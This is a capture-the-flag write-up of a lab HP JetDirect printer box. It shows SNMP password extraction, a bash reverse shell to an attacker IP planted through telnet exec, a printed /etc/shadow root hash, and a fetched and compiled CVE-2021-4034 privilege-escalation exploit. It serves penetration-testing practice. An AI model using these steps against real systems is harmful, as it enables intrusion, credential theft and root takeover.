 # Antique Writeup

Target host: 10.10.11.107
Tcp portscan
```go
Open 10.10.11.107:23
```

Udp portscan
```go
└──╼ $sudo nmap 10.10.11.107 -sU -sV
Starting Nmap 7.92 ( https://nmap.org ) at 2023-04-08 19:08 AEST
Nmap scan report for 10.10.11.107
Host is up (0.41s latency).

PORT     STATE  SERVICE      VERSION
161/udp  open   snmp         SNMPv1 server (public)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.15 seconds
```

Attempting to log into the telnet server on the target.
```go
└──╼ $telnet 10.10.11.107
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect

Password: 
Invalid password
Connection closed by foreign host.
```

Attempted with mutliple users and credentials, but all ended in failure. 

Though logging into the telnet server was unsuccessful, the server did provide us some information about the brand and model of the device. This information will help us search for any available exploits that can be used to break into the server.

A google search on HP JetDirect printer exploits reveals an [article](http://www.irongeek.com/i.php?page=security/networkprinterhacking) which uses a tool named `snmpget`, to call on certain variables names to leak the password used for snmp server.

By using another tool called snmpwalk, we can take the same arguments and variable names to effectivly execute the same exploit.

The following is command required to exploit the snmp server.
```go
snmpwalk -v 1 -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
```

The following is the result received from the above command
`50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135`

By the using the following script we can convert the hex above to ascii.
```python
text = "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135".split(" ")

output = ""
for i in text:
    output += chr(int(i, 16))

print(f"Output: {output}")
```

The script above produces the following result.
`P@ssw0rd@123!!123\x01\x03\t\x17\x18\x19"#%&\'01345789BCIPQTWXaetuy\x82\x83\x86\x90\x91\x94\x95\x98ăĆđĔĕęĢģĦİıĴĵ`

As seen above, the password can be seen in the first 17 in the string `P@ssw0rd@123!!123`.

Using the password above, the we were was able to successfully log into the telnet server.
```go
└──╼ $telnet 10.10.11.107 -l root
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect

Password: P@ssw0rd@123!!123

Please type "?" for HELP
> ?  

To Change/Configure Parameters Enter:
Parameter-name: value <Carriage Return>

Parameter-name Type of value
ip: IP-address in dotted notation
subnet-mask: address in dotted notation (enter 0 for default)
default-gw: address in dotted notation (enter 0 for default)
syslog-svr: address in dotted notation (enter 0 for default)
idle-timeout: seconds in integers
set-cmnty-name: alpha-numeric string (32 chars max)
host-name: alpha-numeric string (upper case only, 32 chars max)
dhcp-config: 0 to disable, 1 to enable
allow: <ip> [mask] (0 to clear, list to display, 10 max)

addrawport: <TCP port num> (<TCP port num> 3000-9000)
deleterawport: <TCP port num>
listrawport: (No parameter required)

exec: execute system commands (exec id)
exit: quit from telnet session
```

Similar to ssh, telnet gives the user access to the operating system through the `exec` command. As seen below, this was exploited to get a bash reverse shell.
```go
> exec echo "/bin/bash -i >& /dev/tcp/10.10.16.3/4242 0>&1" > shell.sh
> exec chmod +x shell.sh
> exec /bin/bash shell.sh
```

```go
└──╼ $nc -nvlp 4242
listening on [any] 4242 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.107] 44806
bash: cannot set terminal process group (1015): Inappropriate ioctl for device
bash: no job control in this shell
lp@antique:~$ ls
ls
shell.sh
telnet.py
user.txt
lp@antique:~$ whoami
whoami
lp
```

Entering the id command shows that the user is part of the lpadmin group, which is specifically used for managining CUPS (common unix printer system).

```go
uid=7(lp) gid=7(lp) groups=7(lp),19(lpadmin)
```

Performing a quick google search shows that the machine is  vulnerable to an exploit that allows an under privileged user to read files as root.
https://github.com/p1ckzi/CVE-2012-5519

Below is some output after I attempt to read /etc/shadow.
```go
root:$6$UgdyXjp3KC.86MSD$sMLE6Yo9Wwt636DSE2Jhd9M5hvWoy6btMs.oYtGQp7x4iDRlGCGJg8Ge9NO84P5lzjHN1WViD3jqX/VMw4LiR.:18760:0:99999:7:::
daemon:*:18375:0:99999:7:::
bin:*:18375:0:99999:7:::
sys:*:18375:0:99999:7:::
sync:*:18375:0:99999:7:::
games:*:18375:0:99999:7:::
man:*:18375:0:99999:7:::
lp:*:18375:0:99999:7:::
mail:*:18375:0:99999:7:::
news:*:18375:0:99999:7:::
uucp:*:18375:0:99999:7:::
proxy:*:18375:0:99999:7:::
www-data:*:18375:0:99999:7:::
backup:*:18375:0:99999:7:::
list:*:18375:0:99999:7:::
irc:*:18375:0:99999:7:::
gnats:*:18375:0:99999:7:::
nobody:*:18375:0:99999:7:::
systemd-network:*:18375:0:99999:7:::
systemd-resolve:*:18375:0:99999:7:::
systemd-timesync:*:18375:0:99999:7:::
messagebus:*:18375:0:99999:7:::
syslog:*:18375:0:99999:7:::
_apt:*:18375:0:99999:7:::
tss:*:18375:0:99999:7:::
uuidd:*:18375:0:99999:7:::
tcpdump:*:18375:0:99999:7:::
landscape:*:18375:0:99999:7:::
pollinate:*:18375:0:99999:7:::
systemd-coredump:!!:18389::::::
lxd:!:18389::::::
usbmux:*:18891:0:99999:7:::
```

This is good, however breaking the hash for root is going to too long.

From this point on, I executed linpeas and discovered that the machine is also vulnerable to CVE-2021-4034

After compiling the C source code found [here](https://github.com/arthepsy/CVE-2021-4034/blob/main/cve-2021-4034-poc.c), I successfully able to evelvate my current shell to a root shell.
```go
lp@antique:/home/lp$ curl http://10.10.16.3:9001/cve-2021-4034-poc.c -o test.c
<ttp://10.10.16.3:9001/cve-2021-4034-poc.c -o test.c
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1267  100  1267    0     0   1214      0  0:00:01  0:00:01 --:--:--  1214
lp@antique:/home/lp$ ls
ls
linpeas.sh
test.c
user.txt
lp@antique:/home/lp$ gcc test.c -o test
gcc test.c -o test
lp@antique:/home/lp$ chmod +x test
chmod +x test
lp@antique:/home/lp$ ./test 
./test
whaomi
/bin/sh: 1: whaomi: not found
whoami
root
```